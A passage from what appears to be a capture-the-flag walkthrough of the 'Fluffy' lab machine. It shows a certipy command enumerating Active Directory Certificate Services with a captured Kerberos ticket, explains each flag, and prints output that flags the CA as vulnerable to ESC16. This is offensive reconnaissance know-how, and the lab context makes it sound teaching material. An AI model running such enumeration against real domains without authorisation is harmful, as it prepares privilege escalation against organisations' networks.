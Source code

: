 ## ADCS Enumeration and Exploitation

### Certificate Authority Enumeration

Let's enumerate the Active Directory Certificate Services to identify potential vulnerabilities:

```bash
export KRB5CCNAME=winrm_svc_3I.ccache
certipy find -target $FQDN -k -enabled -hide-admins -oids -stdout
```
  
> **Command Explanation:**
- `find`: Enumerate certificate authorities and templates
- `-target`: Target domain
- `-k`: Use Kerberos authentication
- `-enabled`: Only show enabled templates
- `-hide-admins`: Hide admin templates
- `-oids`: Show OIDs
- `-stdout`: Output to stdout
{: .prompt-info}

**Results:**
```bash
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RPC
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Access Rights
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
```